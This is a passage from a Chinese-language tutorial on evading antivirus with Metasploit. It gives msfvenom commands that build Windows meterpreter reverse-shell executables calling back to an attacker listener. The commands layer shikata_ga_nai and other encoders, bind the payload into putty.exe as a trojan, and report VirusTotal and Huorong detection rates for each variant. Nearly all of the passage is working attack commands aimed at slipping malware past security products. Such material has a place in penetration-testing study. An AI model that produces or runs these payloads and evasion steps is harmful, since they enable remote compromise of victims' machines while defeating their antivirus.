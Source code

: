 生成原始 payload 做样本。

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.2.131 LPORT=4444 -f exe -o 1.exe`

[![B8YRgJ.md.png](https://s1.ax1x.com/2020/10/28/B8YRgJ.md.png)](https://imgchr.com/i/B8YRgJ)

可以看到 	vt 查杀率  46/71 .

火绒秒杀。

#### 10.4 msf 自编码免杀（56/71）

metasploit提供了多个encoders可以对payload进行处理，使用msfvenom --list encoders可查看所有编码器。

评级最高的两个encoder为cmd/powershell_base64和x86/shikata_ga_nai，其中x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器了。

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.131 LPORT=4444  -e x86/shikata_ga_nai -b "\x00" -i 15 -f exe -o 2.exe`

[![B8UGAx.md.png](https://s1.ax1x.com/2020/10/28/B8UGAx.md.png)](https://imgchr.com/i/B8UGAx)

在virustotal.com上查杀率为56/71。

火绒秒杀。

由于shikata_ga_nai编码技术是多态的，也就是说每次生成的payload文件都不一样，有时生成的文件会被查杀，有时却不会。当然这个也和编码次数有一定关系，编码次数好像超过70次就经常生成出错，但是编码次数多并不代表免杀能力强。

#### 10.5 msf 自带捆绑免杀（45/65）

在生成payload 可使用捆绑功能，使用 -x 参数。

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.131 LPORT=4444 -x putty.exe -k  -f exe -o 3.exe
```

![image-20201029001741173](C:%5CUsers%5C51946%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20201029001741173.png)

VT查杀率45/65  ,免杀率提高了。

火绒也秒杀。

#### 10.6 msf 自捆绑+编码

将上面的编码和捆绑两种方法结合一下进行尝试

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.131 LPORT=4444 -e x86/shikata_ga_nai -x putty.exe  -i 15 -f exe -o 4.exe`

#### 10.7 msf 多重编码（49/71）

msfvenom的encoder编码器可以对payload进行一定程度免杀，同时还可以使用msfvenom多重编码功能，通过管道，让msfvenom用不同编码器反复编码进行混淆。

如下命令，使用管道让msfvenom对攻击载荷多重编码，先用shikata_ga_nai编码20次，接着来10次的alpha_upper编码，再来10次的countdown编码，最后才生成以putty.exe为模板的可执行文件。

` msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 LHOST=192.168.2.131 LPORT=4444 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -a x86 --platform windows  -x putty.exe -f exe -o 5.exe` 
